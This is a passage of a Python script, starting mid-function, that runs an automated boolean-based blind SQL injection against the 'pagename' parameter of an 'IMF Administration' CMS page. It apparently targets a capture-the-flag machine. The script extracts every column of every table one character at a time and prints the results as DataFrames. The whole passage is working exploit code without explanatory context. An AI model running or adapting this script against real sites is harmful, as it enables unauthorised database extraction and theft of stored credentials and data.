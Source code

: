 ```python
            columnas = ""
    print(columnas_tablas_db)

    columnas_tablas_db_datos = {}
    datos = ""
    datos_dict = {}

    for i in columnas_tablas_db:
        for j in columnas_tablas_db[i]:
            for k in columnas_tablas_db[i][j]:
                print(k)
                while True:
                    url_datos = url + (
                        f"pagename=home'or ascii(substring((select group_concat({k}) from {i}.{j}),{posicion},1))='{char}"
                    )
                    response = requests.get(url_datos, cookies=cookies, headers=headers)
                    if (
                        "Welcome to the IMF Administration." not in response.text
                        and "mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in <b>/var/www/html/imfadministrator/cms.php</b> on line"
                        not in response.text
                        and chr(char)
                        in ' !$%&()*+,./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ""[]_-abcdefghijklmnopqrstuvwxyz{|}~'
                    ):
                        datos += chr(char)
                        char = 31
                        posicion += 1
                    else:
                        char += 1

                    if char == 123:
                        break
                posicion = 1
                char = 31

                datos_dict[k] = datos.split(",")[::-1]
                columnas_tablas_db_datos[i] = {}
                columnas_tablas_db_datos[i][j] = datos_dict
                datos = ""

    for i in columnas_tablas_db_datos:
        for j in columnas_tablas_db_datos[i]:
            df = pd.DataFrame(columnas_tablas_db_datos[i][j])
            print(df)


if __name__ == "__main__":
    makeSQLI()

```
